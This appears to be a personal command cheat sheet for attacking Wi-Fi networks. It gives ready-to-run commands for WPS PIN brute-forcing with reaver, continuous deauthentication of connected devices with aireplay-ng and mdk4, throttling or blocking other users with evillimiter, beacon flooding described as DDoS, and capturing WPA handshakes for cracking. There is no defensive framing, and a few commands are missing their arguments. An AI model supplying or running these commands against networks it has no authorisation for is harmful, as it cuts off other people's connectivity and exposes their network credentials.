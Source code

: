 [WASH: networks using the monitor mode interface-- such as printers]
* sudo wash -i wlan2 -c 6
  
[REAVER: the monitor mode interface (-i mon0) to attack the access point (-b E0:3F:49:6A:57:78), displaying verbose output (-v)]
* reaver -i wlan0mon -b E0:3F:49:6A:57:78 -v

[Use the aireplay to deauth users] 
* aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlan0mon

[EVIL LIMITER -- DEAUTH AND LIMIIT BANDWIDHT] #

* git clone https://github.com/bitbrute/evillimiter.git
* cd evillimiter
* sudo python3 setup.py install
* sudo evillimiter
* scan
* limit 1,2,3,4,5,6 200kbit ## LIMIT OR BLOCK NETWORK USERS 
* block 3
* hosts
* free all


[AIRGEDDON] --> [DEAUTH USERS WHEN NOT ON ROUTER]
* git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git
* cd airgeddon
* sudo bash airgeddon.sh

[wifite]

* sudo wifite -all

----------------------------------------- [BEACON FLOOD - DDOS]

[mdk4]

* sudo mdk4 wlan0 b "living room"

[airodump] - [shows devices (mac) within the station]

* airodump-ng wlan0
* airodump-ng -c11 -w airdump.txt -d 50:C7:BF:DC:4C:E8 wlan0

-----------------------------------------[AIRO-DUMP]---------------------------------------

[wifi scan]
* sudo airodump-ng -w wider_scan_capture wlan0 
* sudo airodump-ng -w ap_scan_capture wlan0 -d {AP MAC ADDRESS ^}

##--> RUN Deauth First, and concrunetly run capture handshake 
[mdk4 -- deauth] 
* sudo mdk4 wlan0 d -E living room
* sudo aireplay-ng --deauth 0 -a  wlan0
* sudo aireplay-ng -0 0 -a {AP MAC ADDRESS} -c wlan0

# capture handshake [WAIT FOR MESSAGES TO UPDATE]
* sudo airodump-ng -w deauth_capture -c {channel^} -d {AP MAC} wlan0
